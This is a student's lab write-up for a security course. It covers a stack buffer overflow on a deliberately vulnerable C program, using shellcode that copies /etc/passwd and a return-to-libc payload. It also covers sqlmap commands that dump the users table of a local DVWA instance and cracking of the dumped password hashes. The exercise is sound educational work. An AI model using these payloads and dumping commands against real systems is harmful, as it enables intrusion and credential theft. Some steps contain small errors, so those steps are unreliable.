 # Lab#1, 22110091, Nguyen Tuan Vu, INSE33030E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 

- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do.



- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)

For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy

![task1.01](./Pictures/Task1/1.png)


Then i will compile C asm program and C program to executable code 

![task1.02](./Pictures/Task1/2.png)

I will use an older bash and turn off randomly given stack value.

![task1.03](./Pictures/Task1/3.png)

The pwd of the copy_file `/home/seed/seclabs/LabOnClass/Task1`

Create a global environment varibale using `/home/seed/seclabs/LabOnClass/Task1/copy_file`

![task1.04](./Pictures/Task1/4.png)


The stack frame of main function

![task1.stack](./Pictures/Task1/stack.jpg)

I will find the address of system and exit and that string of varibale 

![task1.06](./Pictures/Task1/6.png)

Address value of system: `0xf7e50db0` will be inserted with format \xb0\x0d\xe5\xf7

Address value of exit: `0xf7e449e0` will be inserted with format \xe0\x49\xe4\f7

Address value of the string of env:  `0xffffdf2a` will be inserted with format  `\x2a\xdf\xff\xff`

So the command will be

``` 
    r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x2a\xdf\xff\xff')")
```

output screenshot (optional)

Before 

![task1.before](./Pictures/Task1/before.png)

Execute Code

![task1.execute](./Pictures/Task1/executecode.png)

After

![task1.after](./Pictures/Task1/after.png)

**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)

![task2.login](./Pictures/Task2/running.png)

- Make sure you can login with default user

So the userdefault will be
username: admin
password: password

![task2.login](./Pictures/Task2/login.png)

- Install sqlmap

Because my virtual machine cannot install sqlmap, i will clone the github and user the sqlmap.py from the author

![task2.sqlmap](./Pictures/Task2/sqlmapinstall.png)


- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

So for this lab, we will turn the dvwa security to low 

![task2.setlow](./Pictures/Task2/setlow.png)

Cookie of the website

![task2.cookie](./Pictures/Task2/cookie.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

The command line for getting database is 
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" --dbs
```

![task2.commandan1](./Pictures/Task2/commandan1.png)

The reuslts

![task2.resultan1](./Pictures/Task2/resultan1.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

Get tables information
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" -D dvwa --tables
```
![task2.commandan2tables](./Pictures/Task2/commandan2tables.png)

Reults

![task2.resultan2table](./Pictures/Task2/resultan2table.png)

Get users information
```
python3 sqlmap.py -u "http://localhost/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=54euriaqv4lm5tvue6n4c7lou6; security=low" -D dvwa -T users --dump

```
![task2.commandan2users](./Pictures/Task2/commandan2users.png)

Results
![task2.resultan2users](./Pictures/Task2/resultan2users.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

So i will create a hashes.txt file to store username and password

![task2.hashescreation](./Pictures/Task2/hashescreation.png)

I have install john the before

![task2.johninstall](./Pictures/Task2/johninstall.png)

We will use the command below to solve the hashes

```
john hashes.txt

```
But my jack the cripper took to long, so i have to use another application to crack them. The result

![task2.hashessolve](./Pictures/Task2/hashessolved.png)
